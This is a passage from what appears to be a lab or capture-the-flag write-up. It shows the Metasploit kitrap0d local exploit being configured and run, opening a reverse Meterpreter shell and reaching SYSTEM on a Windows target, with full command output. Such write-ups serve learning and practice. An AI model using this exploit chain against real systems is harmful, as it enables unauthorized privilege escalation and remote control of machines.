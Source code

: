 

Despite the fact that I didn't set a payload, Meterpreter sets one for
me. That's nice, until it uses my eth0 IP address instead of my tun0
address. So when the exploit runs and succeeds, it's trying to call to
an IP it has no route to.

If I fix that, and run again, I get a shell:



    msf5 exploit(windows/local/ms10_015_kitrap0d) > set lhost tun0
    lhost => tun0
    msf5 exploit(windows/local/ms10_015_kitrap0d) > set lport 445
    lport => 445
    msf5 exploit(windows/local/ms10_015_kitrap0d) > run

    [*] Started reverse TCP handler on 10.10.14.14:445
    [*] Launching notepad to host the exploit...
    [+] Process 3536 launched.
    [*] Reflectively injecting the exploit DLL into 3536...
    [*] Injecting exploit into 3536 ...
    [*] Exploit injected. Injecting payload into 3536...
    [*] Payload injected. Executing exploit...
    [+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
    [*] Sending stage (179779 bytes) to 10.10.10.5
    [*] Meterpreter session 2 opened (10.10.14.14:445 -> 10.10.10.5:49159) at 2019-03-05 12:25:15 -0500

    meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM







